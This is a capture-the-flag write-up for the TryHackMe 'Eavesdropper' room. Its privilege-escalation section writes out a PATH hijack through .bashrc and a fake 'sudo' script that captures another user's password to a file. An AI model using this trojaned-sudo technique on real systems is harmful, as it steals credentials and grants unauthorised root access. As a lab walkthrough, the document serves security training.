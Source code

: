 ![image](https://user-images.githubusercontent.com/87700008/218304020-2bdb82e4-b27a-4656-9432-10e166b327dc.png)

https://tryhackme.com/room/eavesdropper

Difficulty : Medium

## Enumeration :

This room provides the ssh keys for "frank" to get initial access. So, I downloaded the key and modified it to 'chmod 600' and logged in as "frank".

![image](https://user-images.githubusercontent.com/87700008/218304164-75bbf3fd-e3db-478b-ab38-70aa741df0c2.png)

I started by checking the running processes and found that very few processes were running and also "frank" has sudo access as well:

![image](https://user-images.githubusercontent.com/87700008/218304209-63bf14e9-d4f1-4d3e-8886-0821586e11b6.png)

![image](https://user-images.githubusercontent.com/87700008/218304334-2b6bdb48-8c18-4a1c-9ada-3ce35bb4bc73.png)

I assumed that this might be a docker environment. To confirm, I ran the 'ls -la' command to list all the files in the root directory and found a file called ".dockerenv" which confirmed my environment as a docker.

![image](https://user-images.githubusercontent.com/87700008/218304361-a25b0610-ad8c-4d7c-ab31-a15dbacc1a8c.png)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Priv Esc :

Moving ahead, I checked with LinPeas for the privilege escalation vector but didn't find anything. After that, I checked for the running processes using 'pspy'.

![image](https://user-images.githubusercontent.com/87700008/218307727-4dee4f8f-aa95-480f-9229-f769b4acf0ae.png)

I observed that someone else was also using the 'frank' account and using it to check the shadow file, happening every ~30 seconds. So it's a scheduled process, and if we can abuse this scheduled job, we can have the root password.

As the other user also has the same access as 'frank', we can exploit the 'PATH' and place a false 'sudo' file to be executed.

    frank@workstation:~$ mkdir ./bin
    frank@workstation:~$ touch ./bin/sudo
    frank@workstation:~$ chmod +x ./bin/sudo

Since 'frank'sudo access requires the sudo password, we can use the following script and put it into our own created sudo file. The script will take the sudo password and store it in a file:

    #!/bin/bash
    
    echo "Enter password: "
    read -s password
    
    echo $password >> /home/frank/password.txt

After this, we need to redirect the PATH of 'frank', which can be done by adding the following line in the .bashrc file:
    
    export PATH=/home/frank/bin:$PATH
    
![image](https://user-images.githubusercontent.com/87700008/218309588-79a2527d-c8a0-4f9f-b0c0-1b615ec11b32.png)

After doing this, we just have to wait for some time and then we can get the password from the 'password.txt' file.

![image](https://user-images.githubusercontent.com/87700008/218309626-c67496f1-693b-4274-b9d3-9ca3dedeb652.png)

Using the gathered password, I switched the user to sudo.

![image](https://user-images.githubusercontent.com/87700008/218309758-ebc89ff6-c216-4175-9fa4-30a62169ec8b.png)

After switching to sudo, I got the flag in the root home directory. (pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/218309807-6e38dc3c-97b5-4680-97fa-999f75fb1d99.png)
